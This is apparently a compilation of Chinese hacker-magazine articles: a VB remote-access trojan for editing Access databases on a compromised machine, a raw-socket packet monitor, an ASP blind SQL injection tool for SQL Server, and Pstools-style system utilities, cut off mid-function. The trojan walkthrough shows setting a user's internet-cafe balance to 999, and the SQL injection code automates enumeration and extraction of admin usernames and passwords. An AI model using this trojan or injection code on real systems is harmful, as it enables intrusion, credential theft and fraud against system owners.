先说一个关于VB操作Access的一点问题。我们知道VB中的控件并不能识别Access 2000及以后的版本，这里……我是通过ODBC数据源进行控制的，要增加一个数据源可以打开“控制面板”->“管理工具”->“数据源（ODBC）”进行。通过注册表监控，可以修改注册表“HKEY_CURRENT_USER\Software\ODBC\ODBC.INI”来增加，所以我们服务端做的第一件事就是修改注册表建立一个数据源。

下面我们看一下程序的主要代码：

- 1. 服务端  
  控件分布如图1所示。
图1

- 2. 程序重要函数

入口函数：

```vb
Public Sub Main()
    ' 省略程序启动代码
    With Form2.wskcmd 'WinSock控件
        .Close
        .LocalPort = 40000
        .Listen '在40000端口监听
    End With
End Sub


```

其他函数请参看源代码。

- 3. 客户端
  - （1）控件分布如图2所示。
图2

  - （2）重要函数

```vb
Private Sub wskConnect_DataArrival(ByVal bytesTotal As Long) '功能：处理与发送数据
    ' 省略部分代码
    Select Case scmd
        Case "pass_word" '密码验证
            wskConnect.SendData "pass_word_" & g_Pwd '发出验证密码
        Case "pass_wd_ok" '密码正确
            wskConnect.SendData "open_table" & g_path & Chr(1) & g_Access_Pwd
            '传给服务端数据文件的路径和数据库密码
            frmLogin.Caption = "密码正确! 正在传输数据..."
        Case "open_table" '所有的表
            listtable(data) '用ListBox列出所有的表名
        Case "table_show" '一个表中的所有项
            ShowTable(data)
            List1.Enabled = True
            wskConnect.SendData "send_data" '要求传输当前记录数据
        Case "send_data" '当前记录数据
            ShowData(data) '显示
            wskConnect.SendData "check_logs" '当前记录和所有记录
        Case "move_comp" '记录移动结束，要求传输新当前记录
            wskConnect.SendData "send_data"
        Case "check_logs"
            StatusBar2.Panels(4).Text = data '显示提示信息
        Case "save_datok" '保存记录成功
            wskConnect.SendData "send_data" '传输保存后新的数据
        Case "add_newdat" '添加新记录
            StatusBar2.Panels(4).Text = data
            Command5.Enabled = True
    End Select
End Sub


```

再加上相应数据处理的函数，一个操作Access的木马就写好了。

### 实践篇

马儿长大了，我们拿出去遛遛，先在一台肉鸡试练一下，呵呵！

- （1）先给肉鸡种上马儿，把一个测试用的Access文件和服务端放在肉鸡的E盘，运行服务端。
- （2）在本机上打开客户端，填好端口、口令（默认：qfsl）、文件路径和文件密码，如图3所示。
图3

- （3）连接成功了，我们可以操作这个Access了。看到左边的列表是数据库中的所有“表”，我们可以随便选一个“表”进行操作，如图4所示。
- （4）我们来先给一个ID加点钱，选择Users表（不同的网管软件这个会有不同），可以看到右面出现的记录数据，我们可以对其进行操作；点右上角的“编辑记录”，把mRemain中的钱修改为999，“保存”。

哈，钱够用了吧！
图4

- （5）对于添加记录、删除记录和上面类似，不再废话（要注意格式，不然会出错）。
- （6）有时一个账户有好几百条记录，要一个一个找操作对象还不把人给累死啊。所以，有查找、过滤功能哦。我们可以看到右边的 label 显示的是对应表的字段名称，如果我们想过滤某个字段，只要点相应的 text 控件，就会改变过滤的字段，再输入过滤字符串。点“查找”就可以看到我们想要的记录了。

好了，这个“马儿”还是比较好用的，但要注意给服务端带上 VB 运行库，不然的话服务端在主机上可发挥不了作用哦。本程序在 Windows 2000 + VB 6.0 下调试通过。

> 在网络安全对抗技术中，对 IP 包的抓包技术一直是人们关注的焦点，我们可以通过分析数据包的协议类型、数据流量，来协助我们判断网络通信的类型，是否对网络安全构成隐患。下面我将就一个可以监控多宿主网终通信数据包的程序进行解析，程序用 VC++ 6.0 编写，用到了多线程编程和 WinSock 的 SOCK_RAW 套接字……
## 自己编写 IP 包监视工具

文／单长虹

首先，本程序可以对多宿主计算机进行监控。既然是对多宿主计算机进行监控，那么在程序进行初始化时，就少不了判断计算机到底是不是多宿主的……

```cpp
pIpAddrTable ... buffer for IP table
&dwSize      // size of buffer
FALSE        // sort by IP address
```

在 GetIpAddrTable 中有一个成员 dwNumEntries，它指明了本机到底存在多少宿主（也就是网卡）……如果 dwNumEntries 的值大于 2，就说明本机存在两个以上的 IP 地址，这个时候这台计算机就是一台多宿主计算机……

```cpp
DWORD dwSize = 0;
GetIpAddrTable(NULL, &dwSize, FALSE);
PMIB_IPADDRTABLE pIpAddrTable;
pIpAddrTable = (PMIB_IPADDRTABLE)new BYTE[dwSize];
if (pIpAddrTable) {
    GetIpAddrTable((PMIB_IPADDRTABLE)pIpAddrTable, &dwSize, FALSE);
}
```

```cpp
if (pIpAddrTable->dwNumEntries > 2) {
    m_Multihomed = TRUE;
    for (int i = 0; i < (int)pIpAddrTable->dwNumEntries; i++) {
        // ...
    }
}
```

```cpp
char *pIP = inet_ntoa(in);
strcpy(szIP, pIP);

// 将本机除 "127.0.0.1" 以外的地址全部保存到数组 m_IPArr 中备用
if (strcmp(szIP, "127.0.0.1")) {
    m_IPArr.Add(pIpAddrTable->table[i].dwAddr);
}

delete [] pIpAddrTable;
```

接着，我们来看按下“开始监控”按钮时的响应函数。首先，我们要依次将计算机的标准宿主名取到变量 `szHostName` 中，然后通过控件取得要监控的源 IP，赋值给 `m_ipsource` 变量，将要监控的目标 IP 取到 `m_ipcheckedhost` 变量中。代码如下：

```cpp
void CIpmonDlg::OnStart()
{
    // ... 变量声明，可以忽略程序，此处省略
    m_Local = m_check.GetCheck();
    // 返回本地计算机的标准宿主名
    gethostname(szHostName, sizeof(szHostName));
    /* 将本机IP和目标IP地址取出，并转换u_long类型的
       TCP/IP 网络地址（主机字节顺序的地址） */
    iRet = m_ipctrl.GetAddress(m_ipsource);
    m_iphostsource = ntohl(m_ipsource);
    iRet = m_ipctrlhost.GetAddress(m_iphost);
    m_ipcheckedhost = ntohl(m_iphost);
    // ... 后续代码省略
}
```

这个程序中，我们使用 `m_threadID` 的值来控制程序的运行，为 0 时代表开始监控，否则为停止监控，其处理过程如下所示：

```cpp
void CIpmonDlg::OnStart()
{
    // ...
    // 检查是否是本机IP
    if (IsThisHostIP()) {
        CString str;
        // m_threadID 的值来控制程序的运行，为0时代表开始监控，否则为停止监控
        if (0 == m_threadID) {
            str.LoadString("IDS_STOP");
            m_start.SetWindowText(str);
        } else {
            if (m_threadID)
                PostThreadMessage(m_threadID, WM_CLOSE, 0, 0);
            str.LoadString("IDS_START");
            m_start.SetWindowText(str);
            m_start.EnableWindow(FALSE);
        }
        return;
    }
    // ...
}
```

接下来的工作就是要创建一个原始套接字 `m_s`（这里要使用 `SOCK_RAW`，而不是通常使用的 `SOCK_STREAM`），并且要使用 `setsockopt` 函数对 `m_s` 的某些选项进行相应设置。这里，我们只是改变了数据包超时时间，实现过程如下：

```cpp
DWORD dwBufferLen[10];
DWORD dwBufferInLen = 1;
DWORD dwBytesReturned = 0;

// 使用 winsock 建立一个原始套接字，这里要使用 SOCK_RAW 而不是通常使用的 SOCK_STREAM
m_s = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
if (INVALID_SOCKET == m_s) {
    // 错误处理代码
    closesocket(m_s);
    return;
}

// 将默认的45秒超时改成5秒
int rcvtimeo = 5000;
// 这里，在使用原始套接字时是必须调用的函数
setsockopt(m_s, SOL_SOCKET, SO_RCVTIMEO, (const char *)&rcvtimeo, sizeof(rcvtimeo));
if (SOCKET_ERROR) {
    // 错误处理代码
    closesocket(m_s);
    return;
}
```

对原始套接字进行正确的设置之后，下面的代码和普通的使用 TCP 或 UDP 编程的步骤基本上没有什么不同了。下面首先要对声明的 `SOCKADDR_IN` 类型的变量 `sa` 进行赋值，然后将上面设置的原始套接字与 `sa` 绑定。随后，对 Socket 的工作模式进行控制，这里使用 `SIO_RCVALL` 监控所有的数据包，如果设置成功，则直接启动监控线程。代码如下所示：

```cpp
sa.sin_family = AF_INET;              // 指定地址家族
sa.sin_port = htons(7000);            // 指定使用的端口号
sa.sin_addr.s_addr = m_iphostsource;  // 指定绑定的IP地址

// 进行绑定
if (bind(m_s, (PSOCKADDR)&sa, sizeof(sa)) == SOCKET_ERROR) {
    // 错误处理代码
    closesocket(m_s);
    return;
}

/* 对 socket 的工作模式进行控制，这里使用 SIO_RCVALL
   监控所有的数据包，如果设置成功，则直接启动监控线程 */
if (WSAIoctl(m_s, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen),
             &dwBufferLen, sizeof(dwBufferLen), &dwBytesReturned,
             NULL, NULL) != SOCKET_ERROR) {
    AfxBeginThread(threadFunc, (LPVOID)this);
} else {
    // 错误处理代码
    closesocket(m_s);
    return;
}
```

最后，我们来看一下线程函数是怎么处理的。这里，我将线程函数 `threadFunc` 作为全局函数处理。

首先，要将传入线程函数的变量 `p` 静态转化为 `CIpmonDlg` 类型，并赋值给 `pDlg`。然后，在消息队列中使用 `PeekMessage` 函数检查 `WM_USER` 消息，如果消息存在，则不从消息队列中将它移除，函数结束软阻塞状态。同时，将线程的 ID 号取出，赋值给 `m_threadID`，如下所示：

```cpp
UINT threadFunc(LPVOID p)
{
    // 将 p 静态转化为 CIpmonDlg 类型，并赋值给 pDlg
    CIpmonDlg *pDlg = static_cast<CIpmonDlg *>(p);

    PeekMessage(&msg, NULL, WM_USER, WM_USER, PM_NOREMOVE);
    pDlg->m_threadID = GetCurrentThreadId();
    pDlg->m_list.ResetContent();
}
```

在接下来代码中，要使用一个 `while(TRUE)` 的循环，循环处理消息，并不停地抓包进行处理。如果一旦用 `PeekMessage` 函数检查到用户发出的 `WM_CLOSE` 消息，则关闭原始套接字，结束线程，代码如下：

```cpp
while (TRUE)
{
    if (PeekMessage(&msg, 0, WM_CLOSE, WM_CLOSE, PM_NOREMOVE))
    {
        closesocket(pDlg->m_s);
        pDlg->m_threadID = 0;
        pDlg->m_start.EnableWindow(TRUE);
        break;
    }
}
```

接下来，就要在绑定的原始套接字上接收消息，将消息放入 `buf` 缓冲区中，并将取得的原始套接字的信息的 IP 头，按照定义的结构取出来，并将填充在 IP 头中的消息长度取出来，赋值给 `iLen` 变量，代码如下：

```cpp
memset(buf, 0, sizeof(buf));
// 从已经绑定的端口上接收消息
if ((iRet = recv(pDlg->m_s, buf, sizeof(buf), 0)) == SOCKET_ERROR)
{
    // 错误处理代码
    continue;
}
else if (*buf)
{
    bufwork = buf;
    // 将取得的原始套接字的信息的 IP 头按定义结构体取出
    pIpHeader = (IPHEADER*)bufwork;
    WORD iLen = ntohs(pIpHeader->total_len);
}
```

接下来的 `while` 循环比较重要。首先判断 `pIpHeader` 是不是符合 IP 头的结构定义，如果符合，就会将数据包的源 IP 和目标 IP 以及对监控的数据包的感兴趣信息进行格式化，存入 `str` 中，以待输出。通常情况下，IP 头中取得的数据的长度总是和执行 `recv()` 函数取得的返回长度一致，所以实际上对于每一个数据包都只是将它的 IP 包头取出处理一下，就接着去处理下一个数据包了。这里为了程序的完整性，我还是将 `iLen < iRet` 的情况写了进来。有兴趣的读者可以参看源程序。

```cpp
while (TRUE)
{
    if (iLen <= iRet)
    {
        // 判断是否是 IP 头
        if (pDlg->IsIpofHost(pIpHeader))
        {
            // Form the line for m_list
            ina.S_un.S_addr = pIpHeader->sourceIP;
            pSource = inet_ntoa(ina);
            strcpy(szSource, pSource);

            ina.S_un.S_addr = pIpHeader->destIP;
            pDest = inet_ntoa(ina);
            strcpy(szDest, pDest);

            CString str;
            if (pIpHeader->sourceIP == (pDlg->m_ipcheckedhost ? pDlg->m_ipcheckedhost : pDlg->m_iphostsource))
                str.Format("%s > %s len=%d ttl=%d proto=%s", szSource, szDest, iLen, pIpHeader->ttl, get_proto_name(pIpHeader->proto));
            else
                str.Format("%s < %s len=%d ttl=%d proto=%s", szSource, szDest, iLen, pIpHeader->ttl, get_proto_name(pIpHeader->proto));

            pDlg->m_list.AddString(str);
            Sleep(50);
        }

        // 正常情况下，iLen<iRet 的判断不会被执行
        if (iLen < iRet)
        {
            iRet -= iLen;
            bufwork += iLen;
            pIpHeader = (IPHEADER*)bufwork;
        }
        else
            break; // pIpHeader->total_len == iRet and go out
    }
    else
    {
        // recv() 函数可能返回数据包碎片长度，此处为完整性保留
    }
}


```

本文首先从总体上把握解释了这个程序的大致工作流程以及关键地方的细节，如果大家有什么问题，可参照本文的代码进行详细分析。
## SQL Server 数据库信息探测

文／风云

看了 FineShine 的打造 SQL 注入脚本后（《黑客防线》2004 年 3 月），笔者深受启发，不过美中不足的是文章中还有一些问题需要解决。

- 字典支持问题。如果字典信息不够全面，或者说字典中没有我们数据库中所有表的信息（如数据库表名、字段名），那么注入行动只是浪费时间。
- 缺乏对汉字的支持。现在很多朋友都在使用汉字作为平时的密码和账户，汉字的出现频率是非常高的。
- Access 版本不支持 SQL Server。

下面进入正题。本文的目的是要实现 SQL Server 中所有的数据库名、表名、字段名以及表中的数据信息的自动探测，并重点阐述以下几个问题。

- A. 如何快速判断 SQL Server 中的数据库数量。
- B. 如何快速判断特定数据库中数据表的数量。
- C. 如何快速找出特定数据库中所有的数据表名称。
- D. 如何快速找出特定数据表所有字段的数量及名称。

以上的问题解决后，对数据表中所有数据信息的探测问题也迎刃而解了，即使你想在本地重构远程 SQL Server 数据库中信息，只要你有足够多的时间，答案也是 OK 的。

```vb
and Body1<>Body4 and Body3<>Body4 then
    Find_Hole=true
else
    Find_Hole=False
end if
End Function
```

Find_Hole(iUrl) 函数用于判断测试地址是否存在注入漏洞，通过 ByRef 引用方式返回远程主机反馈的信息。其中 body 是远程主机的反馈信息，status 是页面返回状态。你可以在程序中引用它们，并设计出自己的判断函数。Find_Hole(iUrl) 函数中引用的两个函数如下：

```vb
Sub xmlPost(iUrl,ByRef Status, ByRef Body)
    Dim xPost
    On Error Resume Next
    Set xPost = CreateObject("Microsoft.XMLHTTP")
    xPost.open "POST", iUrl, false
    xPost.Send
    Status = xPost.Status
    Body = bytes2BSTR(xPost.responseBody)
    Set xPost = Nothing
End Sub

Function bytes2BSTR(vIn)
    '这个函数可以实现中文的正常显示
    dim strReturn, ThisCharCode, NextCharCode
    strReturn = ""
    For i = 1 To LenB(vIn)
        ThisCharCode = AscB(MidB(vIn,i,1))
        If ThisCharCode < &H80 Then
            strReturn = strReturn & Chr(ThisCharCode)
        Else
            NextCharCode = AscB(MidB(vIn,i+1,1))
            strReturn = strReturn & Chr(CLng(ThisCharCode) * &H100 + CInt(NextCharCode))
            i = i + 1
        End If
    Next
    bytes2BSTR = strReturn
End Function
```

### 漏洞检测

原理我不多说了，《黑客防线》里和 FineShine 的文章已经说得很详细，我只是给出我的实现函数，顺便补充一点，本文是在 ASP 环境下，所有代码都通过 ASP 实现。我们先看一段主体代码，用来实现探测信息并确定是否存在漏洞：

```vb
Function Find_Hole(iUrl)
    dim turl,Body1,Body2,Body3,Body4,Status1,Status2,Status3,Status4
    call xmlPost(iUrl,Status1, Body1)

    turl=iUrl&"'"
    call xmlPost(tUrl,Status2, Body2)

    turl=iUrl&" and 1=1"
    call xmlPost(tUrl,Status3, Body3)

    turl=iUrl&" and 1<>1"
    call xmlPost(tUrl,Status4, Body4)

    if Status1<>500 and Status3<>500 and Status4=500 ...
```

### 判断数据库数量

这里我们需要利用数据表 `master.dbo.sysdatabases`，相关知识见《MSSQL 跨库查询你想怎么玩》一文，实现函数如下：```vb
Function Get_DB_Num()
    dim DBMinNum,DBMaxNum
    DBMinNum=5    'SQL Server中数据库最小数目
    DBMaxNum=50   'SQL Server中数据库最大数目，可自己更改

    CheckDBNum="and (select count(*) from master.dbo.sysdatabases)>[N]"
    Get_DB_Num=Get_Len(iUrl&CheckDBNum,DBMinNum,DBMaxNum)
end function
```

下面重点介绍长度判断函数 `Get_Len()`：

```vb
Function Get_Len(iUrl,minlen,maxlen)
    '使用前提条件：存在注入漏洞
    if ReturnOk(Replace(iUrl,"[N]",maxlen)) then
        Get_Len=-1   '实际长度大于最大预设长度返回-1
        exit function
    end if

    if not ReturnOk(Replace(iUrl,"[N]",minlen-1)) then
        Get_Len=-2   '实际长度小于最小预设长度返回-2
        exit function
    end if

    if maxlen-minlen=1 then
        if ReturnOk(Replace(iUrl,"[N]",(maxlen+minlen)/2)) then
            Get_Len=maxlen
        else
            Get_Len=minlen
        end if
        exit function
    end if

    midlen=int((minlen+maxlen)/2)
    if ReturnOk(Replace(iUrl,"[N]",midlen)) then
        Get_Len=Get_Len(iUrl,midlen,maxlen)
    else
        Get_Len=Get_Len(iUrl,minlen,midlen)
    end if
End Function
```

此函数使用折半算法，迅速缩小判断范围。在本文中使用非常广泛，只要构造出适当的查询条件，就会有意想不到的收获。如判断汉字的 Unicode 编码，在 0~65535 之间，只需要 16 次判断，就肯定能得到特定汉字的 Unicode 码。

程序中的 ReturnOk 函数用来判断远程主机的返回状态，页面返回正常为真，其代码如下：

```vb
Function ReturnOk(iUrl)
    dim iPost
    On Error Resume Next
    Set iPost = CreateObject("Microsoft.XMLHTTP")
    iPost.open "POST",iUrl,false
    iPost.Send
    if iPost.Status<>500 then
        ReturnOk=True
    else
        ReturnOk=False
    end if
    Set iPost = Nothing
End Function
```

其实 ReturnOk 函数就是上面的 xmlPost 过程的简化。你可以根据实际情况，编写自己的返回判断函数。

### 判断数据库名称

在 `master.dbo.sysdatabases` 表中，`dbid`、`name` 两个字段记录着 SQL Server 中的所有数据库名称信息。其中 `dbid` 的范围是 1~数据库总数，`name` 字段则记录了数据库名称信息。其实现函数如下：

```vb
Function Get_DBName(iUrl,dbid)
    Dim MinLen,MaxLen
    MinLen=1      '数据库名称最小长度
    MaxLen=50     '数据库名称最大长度
    Get_DBName=GetFieldValue(iUrl,"master.dbo.sysdatabases","name","dbid",dbid,MinLen,MaxLen)
End Function
```

这儿利用了 GetFieldValue 函数，它可以得到给定数据表中特定 ID 值时某个字段的信息。注意 SQL 中的字符处理函数与 Access 不同。请看下表。

| Access | SQL Server | 说明 |
|---|---|---|
| asc(字符) | unicode(字符) | 返回某字符的编码 |
| chr(数字) | nchar(数字) | 与 asc 相反，根据数字编码返回字符 |
| mid(字符串,N,L) | substring(字符串,N,L) | 返回字符串从 N 字符起长度为 L 的子字符串（N 到 N+L 之间） |

`Get_Field_Name` 函数是信息获取的具体实现步骤的模拟，函数中用到了 `Get_Len(iUrl,0,65535)` 函数。由于 SQL 中汉字用 Unicode 编码，其范围是 `[0~65535]`。下面是详细代码：

```vb
Function GetFieldValue(iUrl,TableName,FieldName,PrimaryKey,PKValue,minlen,maxlen)
    'TableName 是所要猜的表名
    'FieldName 是所要猜的字段名
    'PrimaryKey 主键名称
    'PKValue 主键值

    dim CheckLen,len,CheckFieldValue

    CheckLen=" and 1=(select count(*) from [TABLE] where [IDN]=[ID] and len([FN])>[N])"
    CheckLen=Replace(CheckLen,"[TABLE]",TableName)
    CheckLen=Replace(CheckLen,"[FN]",FieldName)
    CheckLen=Replace(CheckLen,"[IDN]",PrimaryKey)
    CheckLen=Replace(CheckLen,"[ID]",PKValue)

    len=Get_Len(iUrl&CheckLen,minlen,maxlen)

    CheckFieldValue=" and 1=(select count(*) from [TABLE] where [IDN]=[ID] and unicode(substring([FN],[POS],1))>[N])"
    CheckFieldValue=Replace(CheckFieldValue,"[TABLE]",TableName)
    CheckFieldValue=Replace(CheckFieldValue,"[FN]",FieldName)
    CheckFieldValue=Replace(CheckFieldValue,"[IDN]",PrimaryKey)
    CheckFieldValue=Replace(CheckFieldValue,"[ID]",PKValue)
    '...后续同理
End Function
```

```vb
GetFieldValue=Get_Field_Name(tUrl&CheckFieldValue, Flen)
end Function

Function Get_Field_Name(tUrl,Flen)
  dim conn, r, rs, ch, SQL, result
  result=""
  set conn=GetConnection(server.MapPath(...))
  For i=1 To Flen
    ch=Get_Len(Replace(tUrl,"|POS|",i),0,65535)
    SQL="select chr from GB18030 where DU='"&ch
    set rs=get_rs(conn,SQL,1)
    if rs.recordcount=1 then
      result=result&rs(0)
    else
      result=result&"&+#"&ch
    end if
    rs.close
    set rs=nothing
  Next
  conn.close
  set conn=nothing
  Get_Field_Name=result
end Function
```

```vb
'op1,op2: 结果=1发现ID，EID内存；=0则不存在。

dim tUrl,diff,HD,DD
diff=EID-FID
if diff=1 then
  tUrl=replace(tUrl,"|FID|",FID)
  tUrl=replace(tUrl,"|EID|",EID)
  if ReturnOK(tUrl) then
    EID=FID
  end if
  Get_Table_ID=EID
  exit Function
end if

HD=int(diff/2)
DD=diff*2

If op1=0 and op2=1 then
  EID=EID-diff*3/4
  DD=DD/8
end if

tUrl=replace(tUrl,"|FID|",FID)
tUrl=replace(tUrl,"|EID|",EID)
if ReturnOK(tUrl) then
  Get_Table_ID=Get_Table_ID(tUrl,FID,FID+HD,1,op1)
else
  Get_Table_ID=Get_Table_ID(tUrl,EID,EID+DD,0,op1)
end if
End Function
```

### 猜解特定数据库中数据表

这里利用库名 `dbo.dbo.sysobjects`，库表中有 `xtype`、`id`、`name` 3 个字段。通过查询条件 `xtype='U'` 可以得到用户数据表数量。要猜解数据表名，可利用 `id`、`name` 两字段，重点是 `name` 记录表名。

由于 `id` 往往很大，逐个枚举判断会非常耗时，因此需要设计高效算法快速定位 ID 值。思路是设置查询窗口并动态收缩范围，最终在两个候选 ID 中判断并确定目标。

```vb
Function Get_Table_ID(tUrl,FID,EID,op1,op2)
'op1: 是否首次状态。
'op2: 是否收敛状态。
```

参数赋值：

```vb
FID=0            '检查ID范围窗口的下限初始值
EID=FID+1048576  '检查ID范围窗口的上限初始值
'1048576是初始检查窗口宽度
CheckTableID="' and (select count(*) from "&DBName&"..dbo.sysobjects where xtype='U' and id>=FID and id<EID)>1" '查询条件
```

函数调用：

```vb
Tableid=Get_Table_ID(tUrl&CheckTableID,FID,EID,0,0)
```

下次调用时，窗口下限初始值设置为 `FID=Tableid+1`。通过上述算法可在较少次数内快速查到 ID；之后即可进一步获取数据表名。

```vb
CheckTableNum="' and (select count(*) from "&DBName&"..dbo.sysobjects where xtype='U')>N"
TableNum=Get_Len(tUrl&CheckTableNum,TableMinNum,TableMaxNum)
TableName=GetFieldValue(tUrl,DBName&"..dbo.sysobjects","name","id",Tableid,1,100)
```

### 猜解数据表所有字段

这里需要利用数据表 `库名.dbo.dbo.columns`。

库名 `dbo.dbo.columns` 中 3 个关键字段分别是 `name`、`id` 和 `colid`，其中 `id` 是数据表的 ID 值，`colid` 是字段的 ID 值（从 1 到最大字段数量），`name` 就是目标字段名。

有了探测数据库名、数据表名的经验后，字段数量的获取会更简单。先看字段数量获取方法。

```sql
CheckColumnNum=' and (select count(*) from '&DBName&'.dbo.syscolumns where id='&TableID&')>[N]'
ColumnNum=GetLen(Url&CheckColumnNum,0,100)
```

这里不能再通过 `GetFieldValue` 探测字段名，因为查询条件变化了：此前用单一限定条件可得唯一结果，而现在需通过 `id`、`colid` 两个条件才能唯一确定字段名。字段名探测函数实现原理与探测数据库名、表名类似。

### 获取数据库里敏感信息

经过上述探测，数据库框架结构已经明确，接下来就是收集感兴趣的信息。文中以 `Admin` 表中的 `id、username、password` 为例说明。

```sql
CheckDataNum=' and (select count(*) from '&DBName&'.dbo.Admin)>[N]'
UserNum=GetLen(Url&CheckDataNum,0,100)

UserName=GetFieldValue(Url,DBName&'.dbo.Admin','username','id',userid,1,100)
Password=GetFieldValue(Url,DBName&'.dbo.Admin','password','id',userid,1,100)
```

至于 `userid` 的获取，可以通过前文介绍的数据表 ID 获取方法来实现。

```sql
CheckUserID=' and (select count(*) from '&DBName&'.dbo.Admin where id>[FID] and id<[EID])>=1'
Userid=Get_Table_ID(Url&CheckUserID,FID,EID,0,0)
```

至此任务完成，剩下的就是进一步发挥。

#### 编者小注

- 对数据库信息探测有前提：当前连接用户必须具备对应数据库访问权限。
- 若程序过滤单引号，可尝试调整查询条件（如变换类型表达方式）继续工作。
- 数据量大时可能耗时很长，应合理设置脚本超时、保存中间结果，减少重复探测。


大家对远程控制工具 Pstools 应该较熟悉，尤其是 PsExec 在远程 Shell 方面表现突出。本文围绕命令行下的进程/系统控制、重启与信息获取展开，并给出 `GetSysInfo`、`Reboot`、`KillProcess` 等程序实现思路。

## GetSysInfo 的实现

先看 `GetSysInfo` 的实现。文中定义 `GetOS()` 用于读取操作系统版本，核心使用 `OSVERSIONINFO` 结构体（SDK 定义）来存放系统版本信息，随后给出结构体定义与调用方法。

```c
typedef struct _OSVERSIONINFO {
    // 指定这个数据结构的大小，在调用 GetVersionEx 之前必须使用 sizeof(OSVERSIONINFO) 来对该成员进行初始化。
    DWORD dwOSVersionInfoSize;
    DWORD dwMajorVersion;   // 得到操作系统的主版本号
    DWORD dwMinorVersion;   // 得到操作系统的次版本号
    DWORD dwBuildNumber;
    DWORD dwPlatformId;     // 指定操作系统平台的 ID
    TCHAR szCSDVersion[128];// 指定服务包的版本号
} OSVERSIONINFO;
```

为了得到操作系统的版本号，我们定义一个函数 `DWORD WINAPI GetOS()`，函数如下：

```c
DWORD WINAPI GetOS()
{
    OSVERSIONINFO os;
    os.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
    GetVersionEx(&os);
    switch(os.dwPlatformId)
    {
        case VER_PLATFORM_WIN32s:
            return VER_PLATFORM_WIN32s;
        case VER_PLATFORM_WIN32_WINDOWS:
            return VER_PLATFORM_WIN32_WINDOWS;
        case VER_PLATFORM_WIN32_NT:
            return VER_PLATFORM_WIN32_NT;
    }
    return VER_CANNOT_FIND;
}
```

如果系统是 Windows 3.1，那么 `dwPlatformId` 的值是 `VER_PLATFORM_WIN32s`；如果是 Windows 95 或 Windows 98，那么 `dwPlatformId` 的值是 `VER_PLATFORM_WIN32_WINDOWS`；如果是 Windows NT，那么 `dwPlatformId` 的值就是 `VER_PLATFORM_WIN32_NT`。如果还需要判断打了哪个 SP 的补丁，可以判断 `szCSDVersion[128]` 的值。

如果需要判断内存的大小，我们可以使用结构 `MEMORYSTATUS`，其中成员 `dwTotalPhys` 就是存放物理存储器总数的。

```c
MEMORYSTATUS mem;
mem.dwLength = sizeof(mem);
GlobalMemoryStatus(&mem);
wsprintf(szBuff, "Total Memory: %dM", mem.dwTotalPhys/1024/1024+1);
cout<<"<Memory Information>\n";
cout<<szBuff<<endl;
```

下面来看如何得到硬盘分区信息，这里我们使用了一种比较简单的方法。一般来说计算机的盘符为 26 个，我们可以使用一个循环来做，然后在循环中使用函数 `GetDriveType()` 的返回值 `uType` 来得到分区的类型。

```c
cout<<"<Drive Information>\n";
TCHAR szFileSys[MAX_PATH];
for(int i=0;i<26;++i)
{
    wsprintf(szTemp,"%c:\\",'A'+i);
    UINT uType=GetDriveType(szTemp);
    switch(uType)
    {
        case DRIVE_FIXED:
            GetVolumeInformation(szTemp,NULL,NULL,NULL,NULL,NULL,szFileSys,MAX_PATH);
            wsprintf(szBuff,"Hard Disk: %s (%s)",szTemp,szFileSys);
            cout<<szBuff<<endl;
            break;
        case DRIVE_CDROM:
            wsprintf(szBuff,"CD-ROM Disk: %s",szTemp);
            cout<<szBuff<<endl;
            break;
        case DRIVE_REMOTE:
            GetVolumeInformation(szTemp,NULL,NULL,NULL,NULL,NULL,szFileSys,MAX_PATH);
            wsprintf(szBuff,"NetWork Disk: %s (%s)",szTemp,szFileSys);
            cout<<szBuff<<endl;
            break;
    }
}
```

如果要得到系统的目录和 `System32` 目录所在的位置，下面这段代码可以做到。其中 `GetWindowsDirectory()` 用来得到系统目录的位置，`GetSystemDirectory()` 用来得到 `System32` 目录的位置。

```c
TCHAR szPath[MAX_PATH];
GetWindowsDirectory(szTemp,sizeof(szTemp));
GetSystemDirectory(szBuff,sizeof(szBuff));
wsprintf(szPath,"<Windows Directory>\n %s\n<System Directory>\n %s\n",szTemp,szBuff);
cout<<szPath<<endl;
```

`GetSysInfo` 程序的执行结果如图 1 所示。


图 1

## Reboot 的实现

这个程序中，我们比较关心的就是 Windows 的版本号，因为在 Windows NT 系统中，如果要关闭机器，首先要调整用户令牌环的权限。这里，我们首先使用 `dwVersion=GetVersion()` 来得到操作系统的版本号，然后根据相应的版本号，做出相应的权限调整。调整权限的时候，首先要定义一个 `TOKEN_PRIVILEGES` 类型的变量 `tkp`，如下代码：

```cpp
// Windows NT 系列，需要设置调用进程的权限，使之能进行重新启动计算机的操作
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);
LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
tkp.PrivilegeCount = 1; // 设置一个权限
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);
```

在调用函数 `ExitWindowsEx()` 的时候，有两种情况。如果系统在关闭之前要向应用程序发送关闭消息，则在传入参数时要使用 `EWX_FORCEIFHUNG`。如果应用程序不对 `WM_QUERYENDSESSION` 或者 `WM_ENDSESSION` 消息做出回应，系统将把应用程序强制结束；如果使用参数 `EWX_FORCE`，则系统在退出之前不会向任何应用程序发送结束消息，而是直接退出。

`Main()` 函数的程序代码如下：

```cpp
HANDLE hToken;
TOKEN_PRIVILEGES tkp;
DWORD dwVersion;
int iSelected;

cout << "please select:\n" << "1. logoff computer\n" << "2. reboot computer\n" << "3. shutdown computer\n" << "0. exit program\n";
cin >> iSelected;

if (iSelected == 0) exit(0);

dwVersion = GetVersion();
switch(iSelected)
{
case 1: // 注销
    ExitWindowsEx(EWX_LOGOFF,0);
    break;
case 2: // 重新启动
    if (dwVersion < 0x80000000)
    {
        // Windows NT 系列权限调整
        OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);
        LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
        tkp.PrivilegeCount = 1;
        tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
        ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);
    }
    else
    {
